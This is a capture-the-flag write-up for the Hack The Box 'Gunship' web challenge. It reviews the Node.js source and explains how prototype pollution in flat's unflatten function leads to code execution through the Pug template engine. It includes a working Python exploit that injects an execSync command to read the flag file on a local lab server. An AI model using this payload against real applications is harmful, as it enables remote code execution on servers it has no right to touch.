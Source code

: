 ```yaml
---
clayout: ctf
title: Gunship
date: 2024-10-20
image: /ctf/hack-the-box/challenges/web/gunship/gunship.gif
type: Hack The Box

ctf:
    - name: Gunship
      link: https://app.hackthebox.com/challenges/245
      thumbnail: /ctf/hack-the-box/challenges/web/gunship/gunship.gif
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/245
          thumbnail: /ctf/hack-the-box/challenges/web/gunship/pwned.png
---
```


## Challenge Description

In this challenge, we were tasked with exploiting a web application named Gunship. The application is a Single Page
Application (SPA), and at the bottom of the page, there is a form where users can submit their favorite artist's name.

We were also provided with the source code of the application, which revealed potential vulnerabilities that could be
leveraged to compromise the system.

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship-home.png)

## Code Review

### Key Dependencies

By reviewing the package.json file, we identified that the application uses several Node.js libraries, including:

```json
{
    "dependencies": {
        "express": "^4.17.1",
        "flat": "5.0.0",
        "pug": "^3.0.0"
    }
}
```

::: info Notably:

- Pug (version 3.0.0) is used to render server responses and is known to be vulnerable to prototype pollution.
- Flat (version 5.0.0), a library that converts nested objects into flat key/value pairs and vice versa, is used in the
  request handling process. The unflatten function from this library also has potential weaknesses that allow for
  prototype pollution.
  :::

### Endpoint Analysis

The form submits user input via a POST request to the /api/submit endpoint. The vulnerable portion of the server-side
code can be seen below:

```javascript
const { unflatten } = require("flat");

router.post("/api/submit", (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes("Haigh") || artist.name.includes("Westaway") || artist.name.includes("Gingell")) {
        return res.json({
            "response": pug.compile("span Hello #{user}, thank you for letting us know!")({ user: "guest" }),
        });
    } else {
        return res.json({
            "response": "Please provide us with the full name of an existing member.",
        });
    }
});
```

- Pug is used to render the response based on user input.
- The unflatten function processes the request body. However, it is vulnerable to prototype pollution, allowing us to
  manipulate the object prototype.

## Exploitation - Prototype Pollution

### Vulnerability: Prototype Pollution

By exploiting the prototype pollution vulnerability in flat’s unflatten function, we can inject arbitrary properties
into the `artist` object’s prototype. This can lead to remote code execution (RCE) through the Pug templating engine.

### Exploit Strategy

We will use Python to craft and send a malicious payload to the vulnerable `/api/submit` endpoint, injecting a `block`
object into the prototype of the `artist` object. This injected object will execute system commands on the server.

```python
import requests

url = "http://localhost:1337/api/submit"

payload = {
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('$(cat flag*)')"
    }
}

r = requests.post(url, json=payload)
print(r.json())
```

### Explanation of the Payload

- **Prototype Injection**: The payload injects the `block` object into the prototype of the `artist` object using the
  `__proto__` property.
- **Command Execution**: The `block.line` property is set to execute a command using **Node.js** to read a file that
  starts
  with `flag` (`cat flag*`), typically containing the challenge flag.
- **Why `$()`?**: The `$()` syntax ensures that the command (`cat flag*`) is evaluated and executed by the system.

### Result of the Exploit

After sending the crafted payload, the server returns the following response:

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

We got the flag!
Now you can try this on the HTB server to get the real flag.

## References

- [Github - pug - Code Injection](https://github.com/pugjs/pug/issues/3312)
- [Hacktricks - Pug Prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#pug-vulnerability)